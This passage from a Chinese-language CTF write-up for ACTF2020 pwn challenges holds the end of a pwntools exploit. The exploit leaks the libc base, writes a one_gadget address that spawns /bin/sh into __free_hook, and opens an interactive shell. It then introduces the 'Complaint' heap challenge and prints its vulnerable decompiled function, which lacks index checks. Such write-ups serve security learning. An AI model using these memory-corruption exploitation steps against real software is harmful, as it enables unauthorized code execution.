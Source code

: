 ```python
    rc()

# info
# elf, libc
ru('This\'s my mind!\n')

# leak libc base
if is_remote:
    offset___libc_start_main_ret = 0x20830
    offset_one_gadget = 0xf02a4  # execve("/bin/sh", rsp+0x50, environ)
if is_local:
    offset___libc_start_main_ret = 0x26b6b
    offset_one_gadget = 0x106ef8 # execve("/bin/sh", rsp+0x70, environ)

libc_base = int(leak_addr(46),16)-offset___libc_start_main_ret
info_addr('libc_base',libc_base)

free_hook = libc_base + libc.symbols['__free_hook']
info_addr('free_hook',free_hook)

one_gadget = libc_base + offset_one_gadget
info_addr('one_gadget',one_gadget)

log.success('write one_gadget to free_hook')
alter_qw(free_hook, one_gadget)

sl("%100000c")

p.interactive()
```

> 我太菜了...T^T



## Complaint

 - 题目描述：尽情地Make Complaints！
 - 题目地址：[complaint](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/pwn/complaint/complaint)
 - 考察点：Off-by-one（官方）、覆盖_IO_FILE（非预期）
 - 难度：中等
 - 分值：200
 - 完成人数：4

显然是个堆的题，然鹅我并不会利用，看了一下，还有别的漏洞，于是硬是给解出来了...

主要的漏洞如下：

```c
unsigned __int64 mod(){
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("The complaint index you want to modify:");
  __isoc99_scanf("%d", &v1);
  if ( ptr[v1] ){
    printf("Input your complaint:", &v1);
    read(0, ptr[v1], *(&n + v1));
  }
  return __readfsqword(0x28u) ^ v2;
}
```
